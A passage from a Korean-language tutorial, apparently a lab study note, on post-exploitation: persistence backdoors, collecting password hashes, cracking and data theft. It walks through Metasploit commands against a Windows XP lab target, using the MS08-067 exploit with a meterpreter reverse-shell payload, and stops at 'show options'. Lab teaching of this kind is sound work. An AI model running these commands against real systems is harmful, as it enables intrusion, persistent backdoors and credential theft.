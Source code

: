 ## 1. 후속 공격(Post-Exploitation)이란?

:  세션이 오픈된 후 일어나는 모든 행동을 일컫는다.

→ exploit을 하고 난 후 정보를 계속해서 모으는 것은 매우 중요하다. 이런 정보들이 다른 시스템을 공격할 때 도움을 줄 수도 있기 때문이다.

### 시스템을 해킹하고 난 후 해야하는 행동

1. persistence ( 시스템에 지속적인 접근 유지)
2. username과 password hashes 를 모은다
3. password cracking
4. 중요한 data 수집

 

따라서 exploit에 성공한 system에 지속적인 접근을 유지하는 것은 매우 중요하다. 



### 1) Persistence

: meterpreter는 Persistence를 이용하여 시스템에 Backdoor를 남기고 지속적으로 드나들 수 있는 통로를 만들 수 있다.

### 실습 1) Run Persistence

공격할 대상(WinXP), 로컬(Kali) IP 확인

Kali 에서 CMD 창 연 후, root 계정으로 진입

metasploit 실행

```
root@kali:~# msfconsole
```

공격할 대상인 winXP에 취약점 ms08-067을 이용하자

익스플로잇과 페이로드 설정 후 show options 명령어를 통해 필요한 정보 확인

```
msf > search ms08-067
msf > use exploit windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp_allports
msf exploit(windows/smb/ms08_067_netapi) > show options
```
